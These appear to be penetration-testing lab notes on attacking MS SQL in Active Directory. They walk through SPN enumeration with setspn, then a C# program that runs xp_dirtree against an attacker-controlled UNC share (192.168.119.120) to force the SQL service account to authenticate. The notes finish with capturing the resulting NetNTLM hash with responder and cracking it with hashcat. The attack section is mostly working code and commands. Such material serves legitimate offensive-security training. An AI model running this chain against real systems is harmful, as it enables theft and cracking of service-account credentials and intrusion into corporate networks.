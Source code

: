 SQL ENUMERATION
-----------------------
When a MS SQL server is running in the context of an Active Directory service account, it is normally associated with a Service Principal Name (SPN).

To locate instances of MS SQL in an Active Directory query the domain controller for all registered SPNs related to MS SQL.

Query with with native tool setspn:

```setspn -T corp1 -Q MSSQLSvc/*```

Do the same thing through .NET framework using a powershell script:

`C:\Tools\GetUserSPNs.ps1`

UNC INJECTION
------------------

If we use our unprivileged access in the database to execute the `xp_dirtree` procedure, the service account of the SQL server will attempt to list the contents of a given SMB share. A SMB share is typically supplied with a Universal Naming Convention (**UNC**) path, The format is:
`\\hostname\folder\file`

```
using System;
using System.Data.SqlClient;
namespace SQL
{
	class Program
	{
		static void Main(string[] args)
		{
			String sqlServer = "dc01.corp1.com";
			String database = "master";
			String conString = "Server = " + sqlServer + "; Database = " + database +
		"; Integrated Security = True;";
			SqlConnection con = new SqlConnection(conString);
			
		try
		{
			con.Open();
			Console.WriteLine("Auth success!");
		}
		catch
		{
			Console.WriteLine("Auth failed");
			Environment.Exit(0);
		}
		String query = "EXEC master..xp_dirtree \"\\\\192.168.119.120\\\\test\";";
		SqlCommand command = new SqlCommand(query, con);
		SqlDataReader reader = command.ExecuteReader();
		reader.Close();
		con.Close();
		}
	}
}
```

Now shutdown samba share on kali and use responder to capture the hash:
`sudo responder -I tap0`

Crack the hash:
`hashcat -m 5600 hash.txt dict.txt --force`